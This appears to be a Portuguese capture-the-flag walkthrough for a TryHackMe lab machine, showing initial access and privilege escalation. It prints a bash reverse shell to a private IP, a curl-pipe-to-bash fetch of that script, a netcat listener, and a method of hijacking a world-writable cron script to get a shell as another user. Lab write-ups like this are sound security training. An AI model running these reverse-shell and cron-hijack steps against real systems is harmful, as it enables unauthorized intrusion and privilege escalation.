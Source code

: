 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## ⚠️ Obs: Desligar o antivírus

### 💡 A máquina parece ter o `curl`. Dá pra subir um arquivo shell usando um servidor Python, baixar com `curl`, executar e escutar a resposta do outro lado.

![image](https://github.com/user-attachments/assets/9de29dba-6b94-4492-9d84-54b28b5408e3)

### 📄 Conteúdo do arquivo `shell_2.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.100.168/4444 0>&1
```

### 🚀 Dentro dessa pasta, vamos subir o servidor Python para baixar com o curl:

![image](https://github.com/user-attachments/assets/ce117679-c08a-4e7b-90c8-79057e4d97db)

---

### 🌐 No site, usamos o comando `curl` para baixar o arquivo e em seguida já executá-lo:

```bash
curl http://[IP]:[PORTA]/shell_2.sh | bash
```

![image](https://github.com/user-attachments/assets/c0bba9e9-88df-4021-b2c9-9c3276935111)

### Confirmação : ::ffff:192.168.100.207 - - [21/May/2025 02:49:03] "GET /shell_2.sh HTTP/1.1" 200

### 📡 Em outro terminal, deixamos o listener pronto com:

```bash
nc -nlvp 4444
```

![image](https://github.com/user-attachments/assets/c3e6ad67-6e91-4442-a4e9-6196b32a58e2)

---

### ✅ Shell recebido! Agora é hora de fazer pós-exploração e escalar privilégios.

#### Acesso à máquina com usuário `www-data`:

---

### 🗂️ Aqui estão todos os arquivos encontrados com fuzzing. Agora vamos explorá-los em busca de algo útil.
![image](https://github.com/user-attachments/assets/a200a374-0976-4250-b338-69ea9889edbb)
### Dentro da pasta `/opt`, encontramos um script `.sh` que é executado via cron a cada minuto:

![image](https://github.com/user-attachments/assets/854a11c4-a51e-4e55-85b3-e3faf37ec0c1)

### 🔍 Entendendo o que ocorre dentro do script:

![image](https://github.com/user-attachments/assets/a5f88153-c1f1-40fa-88f6-4e6f5c855d4d)

---

## 🧠 Resumo: Como Escalar Privilégios para o Usuário 'swagger'

### Situação:
- Existe um arquivo chamado `script.sh` com permissão `777`:
  ```txt
  -rwxrwxrwx 1 user-swagger user-swagger 184 Jun 1 2023 script.sh
  ```
- Isso significa que **qualquer usuário pode ler, escrever e executar** esse arquivo.
- O **dono do arquivo é o usuário 'swagger'**, que tem mais privilégios que o usuário atual (`www-data`).

### Problema:
- Estamos logados como `www-data`, um usuário limitado.
- Executar o script manualmente com `www-data` **não eleva os privilégios**, porque o shell reverso retornará com os mesmos direitos de `www-data`.

### Solução:
1. Editar o `script.sh` e **inserir um comando de shell reverso**, por exemplo:
   ```bash
   curl http://192.168.100.168:8000/shell_2.sh | bash
   ```
2. **Esperar o cron job executá-lo automaticamente** (ele roda a cada minuto).
   - Como o script será executado pelo próprio usuário `swagger`, o shell reverso retornará com os privilégios dele.

### Conclusão:
- A escalada de privilégios acontece **não quando você executa o script manualmente**, mas quando o **cron do 'swagger' executa o script que você editou**.

![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
- Por exemplo nesta imagem eu escalei previlegio do meu propio usuario e consegui, agora so fazer no arq do usuario swagger
---
